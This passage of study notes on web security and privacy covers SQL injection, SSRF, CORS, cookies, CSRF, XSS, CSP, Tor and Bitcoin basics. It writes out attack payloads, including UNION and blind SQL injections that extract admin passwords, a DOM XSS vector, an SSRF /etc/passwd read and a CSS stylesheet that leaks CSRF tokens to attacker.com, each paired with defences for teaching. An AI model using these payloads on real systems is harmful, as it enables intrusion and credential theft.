  - Query: `$query= "SELECT sender, content FROM messages WHERE receiver='" .$_SESSION["user"] . "' AND content LIKE '%" .$_GET["search"] . "%'";`
  - Crafted quey: `SELECT sender, content FROM messages WHERE receiver='attacker' AND content LIKE '%' UNION SELECT user, password FROM users -- - %'`
    - The two `SELECT` subqueries must return the same number of columns
  - Database metadata
    - We can use the SQL injection to leak the database metadata, which is stored in the `information_schema/sqlite_master` database
    - `information_schema.tables`: names of the tables in the various databases of the system
    - `information_schema.columns`: names, types, etc. of the columns of the various tables
    - SQLITE: `SELECT * FROM sqlite_master WHERE type='table';`
- Second order SQL injection
  - Definition
    - Some applications validate inputs coming from the user, but not data coming from the database
    - In Second-Order SQL injections (also known as Stored SQL injections), the payload is first stored in the database and then used to perform the attack
  - Example
    - Suppose that the attacker registers using the following username: `; UPDATE TABLE users SET password='newpwd' WHERE user='admin' -- -`
    - During the login procedure, the username (read from the database) is stored in `$_SESSION["user"]`, which is then used in this query: `$query= "SELECT sender, content FROM messages WHERE receiver='" .$_SESSION["user"] . "' ANDcontent LIKE '%" .$_GET["search"] . "%'";`
      - Result: `SELECT * FROM messages WHERE receiver = '''; UPDATE TABLE users SET password='newpwd' WHERE user='admin'-- -' ANDcontent LIKE '%%'`
- Blind injection
  - Application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors
  - Suppose the query is: `SELECT id FROM users WHERE id = $_GET["id"]` and that there is no way to show the result of the query; however, the application will react differently depending on the result
  - Attacks
    - Conditional behavior
      - Assuming that we know: (1) table/column names, (2) a valid id, and (3) the admin username: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'k`
      - If “OK” is shown, then we know that the password of the admin starts with a letter greater than `k`, otherwise smaller or equal than `k`
        - We can do a binary search to identify the exact letter, then move to the next character
      - To leak table/column names, we can exploit a similar technique but on the database metadata
    - Conditional error
      - `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
      - The final query generates a division by zero (1/0) when the condition that we want to test is false, otherwise it is valid (‘a’=’a’)
    - Time delay
      - `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:10'--`
      - The final query takes more than 10 seconds when the condition that we want to test is true
- Other tricks
  - Check the number of columns for a table: e.g., test 4 columns
    - `(SELECT 1, 2, 3, 4) = (SELECT * FROM 'Table_Name')` -> Fatal error when the table does not have 4 columns
    - [SQLITE] Leak scheme of a table: `SELECT REPLACE(sql, X'0A', "") FROM sqlite_master WHERE type != 'meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='Table_Name';`
- Cheatsheet: https://portswigger.net/web-security/sql-injection/cheat-sheet
- Prevention
  - Prepared statements: they allow to embed untrusted parameters in a query, while ensuring that its syntactical structure is preserved
    ```php
    <?php
      $db = new PDO(CONNECTION_STRING, DB_USER, DB_PASS);
      $query = "SELECT * FROM users WHERE user = ? AND password = ?";
      $sth = $db->prepare($query);
      $sth->bindValue(1, $_POST["user"]);
      $sth->bindValue(2, $_POST["password"]);
      $sth->execute();
      $user = $sth->fetch();
      // ...
    ?>
    ```
  - Rely on whitelisting approaches ONLY when prepared statements cannot be used
  - Restrict access to sensitive tables with database permissions (defense-in-depth protection)

##### Server-Side Request Forgery (SSRF)

- What is SSRF
  - A server may need to perform some internal/external connections to serve the client request
  - When the request or some of its aspects can be manipulated by the user then an attacker may be able to forge an “unexpected” request:
    - The end target (URI) of the request is under the control of the user
      - FROM https://auth.service/ TO https://attacker.com [control the response]
      - FROM https://auth.service/ TO https://local.ip/ [map/access the internal network]
        - Some internal services may be sometimes accessible without any authentication when the request is coming from the internal network
          - Via SSRF, we may thus able to freely access the service (admin panels, databases...)
      - FROM https://auth.service/secret-token TO https://attacker.com/secret-token [data leak]
    - The data sent are under the control of the user
      - FROM https://social.com/newpost=AAA TO https://social.com/newpost=`cat /etc/passwd`
- Blind
  - In some cases, the server will not provide any explicit feedback about the request
  - Get a feedback by looking at the time required for the server-side request (request may take a different time depending on the internal host, invalid or not, and port, open or closed, that we are testing)
- Prevention
  - Whitelist approach: requests are made only towards specific hosts
  - Isolated host: the host performing the request should be isolated from the rest of the network and should not have access to any sensitive data

##### Javascript and Same Origin Policy (SOP)

- Scripts can be embedded in a page in multiple ways
  - Inlined in the page: `<script>alert("Hello World!");</script>`
  - Stored in external files: `<script type="text/javascript" src="foo.js"></script>`
  - Specified as event handlers: `<a href="http://www.bar.com" onmouseover="alert('hi');">`
  - Pseudo-URLs in links: `<a href="javascript:alert('You clicked');">Click me</a>`
- JavaScript can interact with the HTML page and the browser through the DOM and the BOM
  - Browser Object Model (BOM)
    - Browser-specific Web APIs
    - Elements are: Window, Frames, History, Location,  Navigator (browser type & version), ....
- Browser sandbox: safely execute JavaScript provided by a remote website by enforcing isolation from OS and resources provided by other websites
- Same Origin Policy (SOP)
  - An origin is defined as the triplet (protocol, domain, port)
  - Scripts running on a page hosted at a certain origin can access only resources from the same origin
    - Access (read/write) to DOM of other frames
    - Access (read/write) to the cookie jar (different concept of origin, more next) and local/session storage
    - Access (read) to the body of a network response
  - Some aspects are not subject to SOP
    - Inclusion of resources (images, scripts, ...)
    - Form submission
    - Sending requests (e.g., via the fetch API)
  - Example

    

  - Every browser implements SOP in its way because there is no formal definition of SOP
- DNS Rebinding: breach a private network by causing the victim's browser to access computers at private IP addresses and leak the results to unauthorized parties
  - The DNS response has little validity time so when the request is redone the DNS server resolves to an internal host; re-resolving with DNS will another time give us the attacker website and so doing this we will bypass SOP 

    

    

  - Solutions
    - DNS Pinning: browsers could lock the IP address to the value received in the first DNS response (compatibility issue with some dynamic DNS uses, load balancing, ...)
    - Web servers can reject HTTP requests with an unrecognized Host header: default catchall virtual hosts in the web server configuration should be avoided

##### JSON with Padding (JSON-P)

- SOP is too restrictive, JSON-P is used to perform cross-site requests (is deprecated): it uses script inclusion which is not subject to the SOP

  

- Only GET requests can be performed
- Endpoint could validate Referer but this may be forged or missing
- Requires complete trust of the third-party host
  - The third-party is allowed to execute scripts within the importing page
  - The importing origin cannot perform any validation of the included script

##### Cross-Origin Resource Sharing (CORS)

- SOP is too restrictive, it is desirable to allow JavaScript to access the content of cross-site resources
- CORS provides a controlled way to relax the SOP
  - JavaScript can access the response content if the Origin header in the request matches the Access-Control-Allow-Origin header in the response (or the latter has value `*`)

    

- CORS with Simple Requests

  

- CORS with Credentials

  

- CORS with Non-Simple Requests

  

- CORS headers
  - Request headers (used in pre-flight request):
    - `Access-Control-Request-Method`: the HTTP method that will be used in the actual request
    - `Access-Control-Request-Headers`: list of custom HTTP headers that will be sent in the actual request
  - Response headers:
    - `Access-Control-Allow-Origin`: used to whitelist origins, allowed values are `null`, `*` or an origin (value `*` cannot be used if `Access-Control-Allow-Credentials` is specified)
    - `Access-Control-Allow-Methods`: list of allowed HTTP methods
    - `Access-Control-Allow-Headers`: list of custom HTTP headers allowed
    - `Access-Control-Expose-Headers`: list of response HTTP headers that will be available to JS
    - `Access-Control-Allow-Credentials`: used when the request includes client credentials
    - `Access-Control-Max-Age`: used for caching pre-flight requests
- Pitfalls in CORS Configurations
  - General explanations
    - Two different CORS specifications existed until recently
      - W3C: allows a list of origins in `Access-Control-Allow-Origin` (deprecated)
      - Fetch API: allows a single origin in `Access-Control-Allow-Origin`
    - Browsers implementations complicate CORS configuration: server-side applications need custom code to validate allowed origins rather than just providing a static header with all the whitelisted origins
  - Examples
    - Broken Origin Validation
      - Snippet of nginx configuration setting the CORS header:
        ```
        if ($http_origin ~ "http://(example.com|foo.com)") {
          add_header "Access-Control-Allow-Origin" $http_origin;
        }
        ```
        - Allowed origins: `http://example.com`, `http://foo.com`, BUT also `http://example.com.evil.com`
    - The null origin
      - The `Access-Control-Allow-Origin` header may specify the null value
      - Browsers may send the Origin header with a null value in particular conditions:
        - Cross-site redirects
        - Requests using the file: protocol
        - Sandboxed cross-origin requests
      - An attacker can forge requests with the null Origin header by performing cross-origin requests from a sandboxed iframe

##### Client-side Messaging

- Client-Side Messaging via postMessage
  - postMessage is a web API that enables cross-origin message exchanges between windows

    

- Validating Incoming Messages: message handlers should validate the origin field of incoming messages in order to communicate only with the desired origins; failures to do so may result in security vulnerabilities

##### Cookies

- How it works

  

  

- Domain Attribute
  - If the attribute is not set, the cookie is attached only to requests to the domain who set the cookie
  - If the attribute is set, the cookie is attached to requests to the specified domain and all its subdomains

  

- Cookie attributes
  - Path: can be used to restrict the scope of a cookie to a path
    - If the attribute is not set, the path is that of the page setting the cookie
    - If the attribute is set, there are no restrictions on its value
  - Secure: 
    - If the attribute is set, the cookie will be attached only to HTTPS requests
    - Since recently, browsers prevent Secure cookies to be set (or overwritten) by HTTP requests (integrity)
  - HttpOnly:
    - If the attribute is set, JavaScript cannot read the value of the cookie via `document.cookie`
    - A script can overflow the cookie jar, so that older cookies are deleted, and then set a new cookie with the desired value
    - Prevents the theft of sensitive cookies
  - Max-Age or Expires: define when the cookie expires
    - When both are unset, the cookie is deleted when the browser is closed
    - When Max-Age is a negative number or Expires is a date in the past, the cookie is deleted from the cookie jar
    - If both are specified, Max-Age has precedence
  - SameSite (CSRF protection)
    - Explanation
      - A request from a.example.com to b.example.com is same-site
      - A request from example.com to bank.com is cross-site
    - Controls whether the cookie should be attached to cross-site requests
      - Strict: the cookie is never attached to cross-site requests
      - Lax (default): the cookie is sent even in case of cross-domain requests, but the user must realize it
      - None: the cookie is always attached to all cross-site requests
        - If set to None then Secure must be set
- SOP for reading cookies
  - A cookie is attached to a request towards the URL u if the following constraints are satisfied:
    - If the Domain attribute is set, it is a domain-suffix of the hostname of u, otherwise the hostname of u must be equal to the domain of the page who set the cookie
    - The Path attribute is a prefix of the path of u
    - If the Secure attribute is set, the protocol of u must be HTTPS
    - If the request is cross-site, take into account the requirements imposed by the SameSite attribute
  - Example

    

- Protocol issues
  - The Cookie header, which contains the cookies attached by the browser, only contains the name and the value of the attached cookies
  - The server cannot know if the cookie was set over a secure connection
  - The server does not know which domain has set the received cookie
- Attacks
  - Cookie tossing
    - By setting the domain attribute to e.g., .domain.com, subdomains can force a cookie to other subdomains, related-domains and even to the apex domain
    - The key of the cookie jar is given by the tuple (name, domain, path); when cookies are sent to a given endpoint, attributes are not included (only the name/value pair is sent by the browser)
    - Servers have no way to tell which cookie is from which domain/path
    - Most servers accept the first occurrence of cookies with the same name
    - Most browsers place cookies created earlier first
    - Most browsers place cookies with longer paths before cookies with shorter paths
    - Impact: bypass CSRF protections

    

  - Cookie jar overflow
    - Browsers are limited on the number of cookies an apex domain can have; when there is no space left, older cookies are deleted
    - Attackers can thus overflow the cookie jar to “overwrite” HttpOnly cookies or to bypass cookie tossing protection on servers that block requests with multiple cookies having the same name

    

    

    

- Cookies prefixes: provide to the server more information on the security guarantees provided by cookies
  - `__Secure-`: if a cookie name has this prefix, it will only be accepted by the browser if it is marked as Secure
  - `__Host-`: if a cookie name has this prefix, it will only be accepted by the browser if it is marked Secure, does not include a Domain attribute, and has the Pathattribute set to `/`

##### Cross Site Request Forgery (CSRF)

- Abuse the automatic attachment of cookies to requests done by browsers in order to perform arbitrary actions within the session established by the victim with the target website
- How it works

  

  

  

- Defenses
  - Synchronizer token pattern (forms)
    - Secret, randomly generated string is embedded by the web application in all HTML forms as a hidden input field (`<INPUT type="hidden" value="ak34F9dmAvp">`)
    - Upon form submission, the application checks whether the request contains the token: if not, the sensitive operation is not performed
  - Cookie-to-header token (JavaScript)
    - A cookie with a randomly generated token is set upon the first visit of the web application (`Set-Cookie: __Host-CSRF_token=aen4GjH9b3s; Path=/; Secure`)
    - JavaScript reads the value of the cookie and embeds it into a custom HTTP header
    - The server verifies that the custom header is present and its values matches that of the cookie
  - Design choices
    - Refreshed at every page load: limits the timeframe in which a leaked token (e.g., via XSS) is valid
    - Generated once on session setup: improves the usability of the previous solution, which may break when navigating the same site on multiple tabs
    - CSRF tokens must be bound to a specific user session otherwise an attacker may obtain a valid CSRF token from his account on the target website and use it to perform the attack
  - Referer validation
    - Browsers automatically attach the Referer header to outgoing requests, saying from which page the request has originated
    - In this approach, the web application inspects the Referer header of incoming requests to determine whether they come from allowed pages/domain
    - Problems
      - Sometimes the Referer header is suppressed
        - Stripped by the organization’s network filter
        - Stripped by the local machine
        - Stripped by the browser for HTTPS → HTTP transitions
        - User preferences in browser
      - Types of validation
        - Lenient: requests without the header are accepted
        - Strict: requests without the header are rejected
  - SameSite cookie attribute provides an effective mitigation against CSRF attacks
    - Since the recent browser updates (SameSite = Lax by default), sites are protected by default against classic web attackers
    - No protection is given against related-domain attackers: requests from the attacker domain to the target website are same-site
  - Fetch Metadata: provide to the server (via HTTP headers) some information about the context in which a request is generated
    - The server can use this information to drop suspicious requests (e.g., legitimate bank transfers are not triggered by image tags)
    - For privacy reasons, headers are sent only over HTTPS
    - Headers
      - `Sec-Fetch-Dest`: specifies the destination of the request, i.e., how the response contents will be processed (image, script, stylesheet, document, ...)
      - `Sec-Fetch-Mode`: the mode of the request, as specified by the Fetch API (is it a resource request subject to CORS, is it a document navigation request?)
      - `Sec-Fetch-Site`: specifies the relation between the origin of the request initiator and that of the target, taking redirects into account (is it a cross-site, same-site or same-origin request?)
      - `Sec-Fetch-User`: sent when the request is triggered by a user action
      - Examples
        - Resource isolation policy, mitigates CSRF, XSSI, timing side-channels: `Sec-Fetch-Site == 'cross-site' AND (Sec-Fetch-Mode != 'navigate'/'nested-navigate' OR method NOT IN [GET, HEAD])`
        - Navigation isolation policy, mitigates clickjacking and reflected XSS: `Sec-Fetch-Site == 'cross-site' AND Sec-Fetch-Mode == 'navigate'/'nested-navigate'`

##### Cross Site Scripting (XSS)

- Code injection vulnerability in which the attacker manages to inject JavaScript code, that is executed in the browser of the victim, in the pages of a web application
- Types
  - Reflected: data from the request is embedded by the server into the web page

    

    

  - Stored: the payload is permanently stored on the server-side, e.g., in the database of the web application

    

  - DOM-based: the payload is unsafely embedded into the web page (sink,  properties/functions that allow to modify the HTML of the web page or the execution of JavaScript code) on the browser-side
    - Example
      - Snippet that loads a stylesheet for a given template
        ```javascript
        const templateId = location.hash.match(/tplid=([^;&]*)/)[1];
        // ...
        document.head.innerHTML += `<link rel="stylesheet" href="./templates/${templateId}/style.css">`
        ```
      - This code introduces DOM XSS by linking the attacker-controlled source (`location.hash`) with the injection sink (`innerHTML`): `https://example.com#tplid="><imgsrc=xonerror=alert(1)>`
    - Not just scripts: CSS injections can be used to leak secret values (e.g., CSRF tokens) that are present inside the DOM of the page
      ```html
      <HTML>
        <STYLE>
          input[name=csrf][value^=a] ~ * {
            background-image: url(http://attacker.com/?v=a);
          }
          input[name=csrf][value^=b] ~ * {
            background-image: url(http://attacker.com/?v=b);
          }
          /* ... */
          input[name=csrf][value^=9] ~ * {
            background-image: url(http://attacker.com/?v=9); 
          }
        </STYLE>
        ...
        <FORM>
          ...
          <INPUT type=”hidden” name=”csrf” value=”s3cr3t”>
          ...
        </FORM>
      </HTML>
      ```
- Prevention
  - Any user input must be preprocessed before it is used inside the page: HTML special characters must be properly encoded before being inserted into the page
  - Don't do escaping manually
    - Use an escaping library
      - OWASP ESAPI (Enterprise Security API)
      - Microsoft’s AntiXSS
      - DOMPurify (client-side)
    - Rely on templating libraries which provide escaping features
      - Smarty and Mustache in PHP, Jinja in Python, ...
      - Use APIs, don't just insert code
  - Against DOM-based XSS use Trusted Types
  - Caveats with Filters
    - Suppose that a XSS filter removes the string `<script` from the input parameters
      - `<script src="..."`  becomes `src="..."`
      - `<scr<scriptipt src="..."` becomes `<script src="..."`
    - Need to loop and reapply until nothing found
- Payloads: https://github.com/payloadbox/xss-payload-list
- Cheatsheet: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

##### Content Security Policy (CSP)

- CSP is a policy designed to control which resources can be loaded by a web page
- The policy is communicated via the Content-Security-Policy header
- Directives
  - Fine-grained filtering of resources depending on their type
    - `font-src, frame-src, img-src, media-src, script-src, style-src, ...`
    - `default-src` is applied when a more specific directive is missing
  - A list of values can be specified for each directive
    - Hosts (with * as wildcard): `http://a.com, b.com, *.c.com, d.com:443, *`
    - Schemes: `http:, https:, data:`
    - `‘self’` whitelists the origin from which the page is fetched
    - `‘none’` whitelists no URL
  - Specific to scripts/stylesheets
    - `‘unsafe-inline’` whitelists all inline style directives/scripts (including event handlers, JavaScript URIs, ...)
    - `‘unsafe-eval’` allows the usage of dynamic code evaluation functions (e.g., `eval`)
    - `‘nonce-<value>’` whitelists the elements having the specified value in the nonce attribute
    - `‘sha256-<value>’, ‘sha384-<value>’, ‘sha512-<value>’` whitelist the elements having the specified hash value (which is encoded in base64)
    - `‘unsafe-hashes’` is used together with a hash directive value to whitelist inline event handlers
    - `‘strict-dynamic’` allows the execution of scripts dynamically created by other scripts
  - Some values are incompatible with others
    - When nonces are used, `‘unsafe-inline’` is ignored
    - When `‘strict-dynamic’` is used, whitelists and `‘unsafe-inline’` are ignored
- Bypassing CSP with Code Reuse Attacks
  - Many websites use very popular (and complex) JS frameworks
    - Examples include AngularJS, React, Vue.js, Aurelia, ...
    - These frameworks contain script gadgets, pieces of JavaScript that react to the presence of specifically formed DOM elements
  - We can abuse scripts gadgets to obtain code execution by injecting benign-looking HTML elements

    

- Dangling Markup Injection

  

##### Trusted types

- API pushed by Google to obliterate DOM XSS
- Idea
  - Lock down dangerous injection sinks so that they cannot be called with strings
  - Interaction with those functions is only permitted via special (trusted) typed objects
  - Those objects can be created only inside a Trusted Type Policy (JS code part of the web application)
  - Policies are enforcement by setting the trusted-types special value in the CSP response header
  - The only code that could introduce a DOM XSS vulnerability is in the policies
- Example
  - Vulnerable code (if you enable sink detection them it throws a type error, it refuses to work)
    ```javascript
    const templateId = location.hash.match(/tplid=([^;&]*)/)[1];
    // typeof templateId == "string"
    document.head.innerHTML += templateId // Throws a TypeError!
    ```
  - Fix
    ```javascript
    const templatePolicy = TrustedTypes.createPolicy('template', {
      createHTML: (templateId) => {
        const tpl = templateId;
        if (/^[0-9a-z-]$/.test(tpl)) {
          return`<link rel="stylesheet" href="./templates/${tpl}/style.css">`;
        }
        throw new TypeError();
      }
    });
    const html = templatePolicy.createHTML(location.hash.match(/tplid=([^;&]*)/)[1]);
    // html instanceof TrustedHTML
    document.head.innerHTML += html;
    ```
- Types
  - `TrustedHTML` strings that can be confidently inserted into injection sinks and rendered as HTML
  - `TrustedScript` ... into injection sinks that might execute code
  - `TrustedScriptURL` ... into injection sinks that will parse them as URLs of an external script resource
- Pitfalls
  - Non DOM XSS could lead to a bypass of the policy restrictions
  - Sanitisation is left as an exercise to the policy writers
  - Policies are custom JavaScript code that may depend on the global state

##### Network protocol issues

- Moving from HTTP to HTTPS

  

- SSL stripping

  

- HTTP Strict Transport Security (HSTS)
  - Allows a server to declare that all interactions with it should happen over HTTPS
    - Browser automatically upgrades all HTTP requests to HTTPS
    - Connection is closed (without asking the user) if errors occur during the setup (e.g., invalid certificate)
  - Deployed in the `Strict-Transport-Security` header (header ignored if delivered over HTTP)
  - Attackers can still perform SSL stripping the first time a site is visited so browsers ship with a preload list of websites which are known to support HTTPS
  - Policy

    

  - Bypassing HSTS with NTP
    - NTP used to synchronize the clock between different machines over a network
    - Most operating systems use NTP without authentication
      - Some OS accept any time contained in the response
      - Other OS impose constraints on the time difference (at most 15~48 hours on Windows, big time differences allowed only once in macOS)
    - Idea: make the HSTS policies expire by forging NTP responses containing a time far ahead in the future

#### Web tracking

##### Tracking cookies

- 3rd party cookies enable user tracking
  - Example
    - Websites which browser interacts with (while loading www.ilmessaggero.it )
    - Lightbeam, an add-on for Firefox
    - www.ilmessaggero.it is the 1st party; other sites consequently loaded are 3rd party sites

    

  - Explanation

    

- Goals of web tracking: determining web users interests or modeling users behavior
- How tracking based on 3rd party cookies works?
  1. Connect to site A to get index.html
  2. index.html asks to download image img.png from site B ≠ A
  3. Connect to B to get img.png
     - B knows the referer (if no https)
     - B sends one or more cookies with sensitive information
  - A referrer is the URL of a previous item which led to the current request
  - The referrer is an optional field of the HTTP request
  - Some web browsers allow to disable the sending of referrer information•referrer removal may break the functioning of a webpage
- Cookie syncing

  

  - Suppose the user clears the cookie for B.com and then visits other websites which also perform cookie syncing with B.com, obtaining a new ID, e.g., 678910
  - If the user visits again A.com, after the sync, B.com can understand that 12345 is the same as 678910
- Leaked data
  - Location, interests, purchases, employment status, sexual orientation, financial challenges, medical conditions, and more
  - When 1st party embeds 3rd party content 3rd party Web site is made aware of 1st party page URL
    - HTTP referrer
    - If 3rd party executes some script it can learn the page title from `document.title`
- Regulations
  - GDPR (should) make the users aware of tracking
  - A website should ask consent before enabling 3rd party cookies
  - Most websites shows complicated-by-design popups
  - Users just accepts the terms!
- Tracking cookies aren't always bad: a lot of content creators use these cookie for sustaining themself using advertisement; they are acceptable ads
- Solution: ADBlock/PiHole

##### Client fingerprinting

- Panopticlick.eff.org: tests your browser for tracking

  

  - How

    

    

    - This is done using JavaScript (example: Fingerprint.JS)
  - Alternative technique: based on the cache of favicon (supercookie.me)

##### TOR

- Anonymity = the person is not identifiable within a set of subjects
- Unlinkability of action and identity: (example) sender and his email are no more related after adversary’s observations than they were before
- Unobservability (hard to achieve): adversary can’t even tell whether someone is using a particular system and/or protocol
- Attacks on anonymity
  - Passive traffic analysis
  - Active traffic analysis: inject packets
  - Compromise of network nodes (sniffing)
- Solution
  - VPN? NO
  - Tor
- Tor
  - Tor is a distributed anonymous communication service using an overlay network that allows people and groups to improve their privacy and security on the Internet
  - Individuals use Tor to keep websites from tracking them, or to connect to those internet services blocked by their local Internet providers
  - Tor's hidden services let users publish web sites and other services without needing to reveal the location of the site
  - Components
    - Client: the user of the Tor network
    - Server: the target TCP applications such as web servers
    - Tor (onion) router: the special proxy relays the application data
    - Directory server: servers holding Tor router information
  - How it works

    

    

    

  - Tor circuit setup

    

    1. Routers public keys are retrieved from the directory server; using them...
    2. Client (aka Onion Proxy) establish a symmetric session key with relay node 1, 2, 3
    - Each router knows only its predecessor and successor
    - Only the Exit router (OR3) can see the message, however it does not know where the message is from
  - Message exchange

    

    

  - Setting up a hidden service

    

    - No one will directly contact bob, they will contact its introduction points instead (which in the end are entire tor circuits)
    - To keep track of this we use a sort of directory server

    

    

    

    

    


### Practice

- https://play.webhack.it/

## Privacy

### Theory

#### Privacy in digital society (PROBABLY NOT REQUESTED)

- Privacy (difficult to define): ability of an individual or group to seclude themselves or information about themselves and thereby express themselves selectively
  - When something is private to a person, it usually means there is something to them inherently special or sensitive
  - The right not to be subjected to unsanctioned invasion of privacy by the government, corporations or individuals is part of many countries' privacy laws, and in some cases, constitutions
  - Privacy may be voluntarily sacrificed, normally in exchange for perceived benefits and very often with specific dangers and losses
    - Personal information which is voluntarily shared but subsequently stolen or misused can lead to identity theft
  - The word "privacy" is sometimes untranslatable, and many languages do not have a specific word for "privacy"
- Nothing to hide: "If you have nothing to hide, then what do you have to fear?"
  - It assumes that information that you want to hide are bad things
  - We conceal aspects of our person, our conduct and our history that, if known, would make it more difficult for us to achieve our personal goals
  - Example
    - If you have nothing to hide give me that photo of you naked and drunk. And I can give to the person that will interview you for a new job
    - If you have nothing to hide give me your credit card number
  - Everyone has something to hide: saying you have nothing to hide equates to “I don’t care what happens so long as it doesn’t happen to me”
  - Even if you have nothing to hide, data mining may result in your profile matching a profile that predicts you have done something wrong or will do something wrong, and may be relied on even if the prediction has no merit
    - Problems
      - Aggregating data:  combination of small bits of innocuous data; when aggregated these data say many things 
      - Exclusion: people do not have knowledge about their information is used and cannot change and correct wrong data 
      - Secondary use: data collected for one purpose can be used for other purposes
- Privacy types
  - Privacy of personal space: you live in a "protected" environment where no one can hear you
  - Communication privacy
    - When all communication was oral, communication privacy depended on communicating without someone overhearing and cCommunicating with people who wouldn’t tell others
    - Written communications brought new opportunities for privacy violations
    - Today
      - Google & Facebook business: publicity, advertisement; these are focused using private information (data collection by companies in general)
      - Different social contexts: family, small group, social networks
  - Limited access to self
    - The right to be let alone
    - Westin’s control over information
      - Privacy is the claim of individuals, groups or institutions to determine for themselves when, how, and to what extent information about them is communicated to others
      - Each individual is continually engaged in a personal adjustment process in which he balances the desire for privacy with the desire for disclosure and communication
      - Example
        - It is your decision to let people know if you have cancer
          - You buy a book on Cancer. This does imply you have cancer
          - You buy a wig. This does not imply you have cancer
          - BUT 1 + 2 increases the possibility that you might have cancer
          - Note: if you buy on Amazon then they correlate the information
    - Westin’s four states of privacy 
      - Solitude: individual separated form the group and freed form the observation of other persons
      - Intimacy: individual is part of a small unit
      - Anonymity: individual in public but still seeks and finds freedom from identification and surveillance
      - Reserve: the creation of a psychological barrier against unwanted intrusion - holding back communication
    - Westin’s four functions of privacy
      - Personal autonomy: control when you go public about info
      - Emotional release: be yourself
      - Self-evaluation
      - Limited and protected communication 
- Information privacy: concerns the collection, use, and disclosure of personal information
  - The protection of privacy should be based directly on the protection of the human dignity and not indirectly on the basis of other rights, for example the property or freedom of expression 
- Information vs decisional privacy
  - Information privacy concerns the collection, use, and disclosure of personal information
  - Decisional privacy concerns the freedom to make decisions about one's body and family
- Decisional privacy
  - Limited access vs. control
    - Privacy as limited access to self: the extent to which we are known to others and the extent to which others have physical access to us
    - Privacy as control over information: not simply limiting what others know about you, but controlling it
- Privacy policies
  - Policies let consumers know about site’s privacy practices
  - Consumers can then decide whether or not practices are acceptabl
  - Problems: policies are
    - Difficult to understand
    - Hard to find
    - Take a long time to read
    - Change without notice
  - Example: notice and choice
    - Notice about data collection and use
    - Choices about allowing their data to be collected and used in that way
    - This allows free and informed consensus by providing tradeoff between privacy and benefits? NO -> Very long documents that nobody reads
    - Cost of reading privacy policies
      - 1 person: Time = 244/hours year, Cost = $3,534/year
- How are online privacy concerns different from offline privacy concerns? 
  - Web privacy
    - Concerns
      - Data is often collected silently
      - Data from multiple sources may be merged
      - Data collected for business purposes may be used in civil and criminal proceedings
      - Users given no meaningful choice
    - Browsers collect a huge amount of data
    - Cookies
      - Pros and cons
        - Useful: identify you when you return to a web site so you don’t have to remember a password
        - Unexpected: profile users and track their activities, especially across web sites
      - How it works
        - A cookie stores a small string of characters
        - A web site asks your browser to set a cookie
        - Whenever you return to that site your browser sends the cookie back automatically
        - Cookies are only sent back to the site that set them: setting cookies indicate path, domain, and expiration for cookies
        - Cookies can store user info or a database key that is used to look up user info
      - Terminology
        - Cookie Replay: sending a cookie back to a site
        - Session cookie: cookie replayed only during current browsing session
        - Persistent cookie: cookie replayed until expiration date
        - First-party cookie: cookie associated with the site the user requested
        - Third-party cookie: cookie associated with an image, ad, frame, or other content from a site with a different domain name that is embedded in the site the user requested
          - Invisible “images” (1-by-1 pixels, transparent) embedded in web pages and cause referer info and cookies to be transferred (also in mails)
      - How data can be linked
        - Every time the same cookie is replayed to a site, the site may add information to the record associated with that cookie
        - If multiple cookies are replayed together, they are usually logged together, effectively linking their data

#### Bitcoin

- Methods of payment
  - Credit (debit) card
  - Paypal: based on a trusted authority
  - Not anonymous
- SSL
  - SSL and credit card are used for paying
  - Problems
    - Malicious sellers have info on clients
    - Clients can in principle refuse to pay
    - Expensive method for the shop
    - Not anonymous
- Secure Electronic Transactions (SET)
  - Not a payment system rather a set of security protocols & formats
    - Secure communications amongst parties
    - Trust from use of X.509v3 certificates
  - Problems
    - All users must have a certificate (complicated)
    - Anonymity between clients and merchant but there is a Central authority: knows everything 
    - Costly (you have to pay credit card companies)
- Bitcoin
  - Core feature
    - Decentralized: no central authority
    - Immune to sovereign censorships
  - Goal
    - Enable payments with low transaction costs
    - Sometimes provide anonymity (RARELY)
  - How to
    - Install and general
      - Download software to create a Bitcoin wallet; the wallet holds the private keys you use to prove you own specific Bitcoins
      - The soTware creates public/private key pairs for you as needed; for each pair, there is a corresponding bitcoin address, which is a 160-bit hash of the public key
      - Bitcoins are sent to addresses
      - The wallet also contains software that allows you to send and receive bitcoins
      - You send bitcoins by registering your payments in the block chain, which is bitcoin’s public ledger containing all transactions since the beginning of bitcoin
    - Spending
      - A transaction is of the form “send these Bitcoins from address Y to address Z”
      - Specific Bitcoins are described as outputs of previous transactions
      - The transaction is signed with the private key of address Y and broadcast, along with the public key of Y, to the payment network
      - A transaction might also include a transaction fee
  - Problem: double spending

    

  - Solution: maintain a global public append-only log (the blockchain)
    - The log is extended in increments of blocks, each of which may contain thousands of transactions
    - Example: last block is cancelled because contains transfer of X by A that is not the owner anymore

      
  - How it works
    - Cryptographic tools
      - Hash functions
        - General info
          - Input can be any string of any size
          - Produces a fixed size output
          - Efficiently computable
        - Properties
          - Collision-resistance: hash function H is said to be collision resistant if it is infeasible to find two values, x and y, such that x ≠ y, yet H(x)=H(y)
            - From this we achieve the message digest: we upload a large file M with y=H(M), and we want to be able to verify later that the file M’ we download is the same (M=M’) it is sufficient to check that H(M’)=y=H(M)
          - Hiding: given h(r||x), the secret is x and a highly-unlikely-and-randomly-chosen r is hard to find y such that h(y)=h(r||x) (|| means concatenation)
          - Puzzle friendliness: given z and a highly-unlikely-and-randomly-chosen r is hard to find x such that h(r||x)=z (but it should exist)
        - What it is used for
          - Commitment scheme
            - Algorithms
              - (com, key) := commit(msg)
                - The commit function takes a message as input and returns two values, a commitment (com), and a key
                - commit(msg) := (H(key | msg), key) where key is random 
              - isValid := verify(com, key, msg)
                - The verify function takes a commitment, key, and message as input; it returns true if the com is a valid commitment to msg under the key
                - verify(com, key, msg) := true if H(key | msg) = com; false otherwise
            - We require that the following two security properties hold
              - Hiding: given com, it is infeasible to find msg
              - Binding: for any value of key, it is infeasible to find two messages, msg and msg’ such that msg ≠ msg’ and verify(commit(msg), key, msg’) == true
